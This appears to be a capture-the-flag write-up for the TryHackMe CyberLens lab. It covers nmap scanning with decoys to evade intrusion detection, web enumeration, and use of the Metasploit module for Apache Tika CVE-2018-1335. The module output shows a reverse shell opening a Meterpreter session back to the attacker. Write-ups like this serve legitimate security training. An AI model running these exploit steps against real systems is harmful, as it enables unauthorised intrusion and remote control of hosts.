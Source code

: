 
![intro](https://github.com/user-attachments/assets/341efde7-07e4-4e6d-b9c4-11cd22bd43ab)

# tryhackme-CTF-writeup-for-cyberLens

This is a walkthrough for the tryhackme CTF CyberLens. I will not provide any flags or passwords as this is intended to be used as a guide.

# Challenge Description

![description](https://github.com/user-attachments/assets/5e04f23a-a20b-4455-a22d-55edde6b6ff9)

As per the instructions, let's add the IP to our /etc/hosts file:
```bash
sudo echo '10.10.179.83 cyberlens.thm' >> /etc/hosts
```

Scanning/Reconnaissance
First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:

nmap -A -v $ip -D RND:10 -oN nmap.txt
Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a few open ports that will prove very useful:

![nmap1](https://github.com/user-attachments/assets/1e85694b-46d2-472b-b25c-96d0bef09555)
![nmap2](https://github.com/user-attachments/assets/f4c98a3f-721a-4082-8536-284be0651ac9)

Let's head to web sever on port 80. There is an upload image function. I'm going to run further scans using ffuf, gobuster and nikto for further enumeration:
```bash
ffuf -u http://$ip/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
gobuster dir -u $ip -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt -o buster.txt
```
```bash
nikto -h $ip | tee nikto.txt
```
There are some directories that could prove useful:

![gobuster](https://github.com/user-attachments/assets/cf13212b-f7ce-4698-afdd-28f13257f9fa)

![nikto](https://github.com/user-attachments/assets/40632bb4-ccbc-4c1c-90a7-8752317b2d1d)

In the /js directory there is a js file that contains "fetch("http://localhost:61777/meta":

![extractor js](https://github.com/user-attachments/assets/5077b3c7-30a8-4b63-b402-d138f1e64467)

I ran an nmap scan on port 61777 but it didn't yeild much info.

![nmap61777](https://github.com/user-attachments/assets/c04c9ef6-86e1-4340-8c9a-0ed26484fa04)

I'll go ahead and visit the IP on this port.

We get a Tika 1.17 welcome:

![Tika 1 17](https://github.com/user-attachments/assets/a2d37890-2b70-4e02-b44a-12fa96ff247b)

I did a google search for Tika 1.17 exploit, and checked out this Header Command Injection(Metasploit) exploit. 

![headercommandinjection](https://github.com/user-attachments/assets/39a5d4c3-6ac4-4796-a127-d17c7ce2af2b)

I'm going to open up msfconsole and search for this exploit.

![msf1](https://github.com/user-attachments/assets/3f8fb7e6-7f58-43c6-9ae9-c336b6031038)

Payload information:

Description:
  This module exploits a command injection vulnerability in Apache 
  Tika 1.15 - 1.17 on Windows. A file with the image/jp2 content-type 
  is used to bypass magic bytes checking. When OCR is specified in the 
  request, parameters can be passed to change the parameters passed at 
  command line to allow for arbitrary JScript to execute. A JScript 
  stub is passed to execute arbitrary code. This module was verified 
  against version 1.15 - 1.17 on Windows 2012. While the CVE and 
  finding show more versions vulnerable, during testing it was 
  determined only > 1.14 was exploitable due to jp2 support being 
  added.

References:
  https://www.exploit-db.com/exploits/46540
  https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/
  https://lists.apache.org/thread.html/b3ed4432380af767effd4c6f27665cc7b2686acccbefeb9f55851dca@%3Cdev.tika.apache.org%3E
  https://nvd.nist.gov/vuln/detail/CVE-2018-1335

msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rhosts 10.10.179.83
rhosts => 10.10.179.83
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rport 61777
rport => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

[*] Started reverse TCP handler on 10.10.177.69:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  16.19% done (15998/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  24.29% done (23997/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  32.39% done (31996/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  40.48% done (39995/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  48.58% done (47994/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  56.67% done (55993/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  64.77% done (63992/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  72.87% done (71991/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  80.96% done (79990/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  89.06% done (87989/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Command Stager progress -  97.16% done (95988/98798 bytes)
[*] Sending PUT request to 10.10.179.83:61777/meta
[*] Sending stage (175686 bytes) to 10.10.179.83
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Meterpreter session 1 opened (10.10.177.69:4444 -> 10.10.179.83:49859) at 2024-08-04 20:33:28 +0000

meterpreter > 
